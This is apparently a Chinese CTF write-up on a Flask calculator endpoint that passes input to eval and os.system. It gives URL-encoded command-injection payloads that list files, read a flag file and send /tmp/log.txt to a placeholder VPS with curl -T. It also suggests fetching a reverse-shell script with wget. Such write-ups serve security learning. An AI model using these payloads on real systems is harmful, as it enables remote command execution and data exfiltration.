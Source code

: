 ```python
if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000)  

```

关键看

```python
data = eval(num)
os.system(log)
```

需要eval计算不报错，才能利用os.system来执行命令，用`#`注释掉就行

然后就是类似无回显rce，可以考虑curl到vps：

```
url/calc?num=123%23`curl%09ip:8899`
```

不过当时想不出咋带，后面学习了一下curl的用法

可以看看这篇：[绕过限制利用curl读取写入文件](https://www.anquanke.com/post/id/98896)

因为结果会被写入到/tmp/log.txt，可以利用curl -T带出来

```
url/calc?num=123%23`ls%09/`

url/calc?num=123%23`cat%09/Th1*`

url/calc?num=123%23`curl%09-T%09/tmp/log.txt%09ip:8899`
```

![](https://s2.loli.net/2022/04/18/falSeBvE9MzZjOn.png)

也可以考虑wget一个反弹shell的sh文件然后执行，注意要放到可写目录
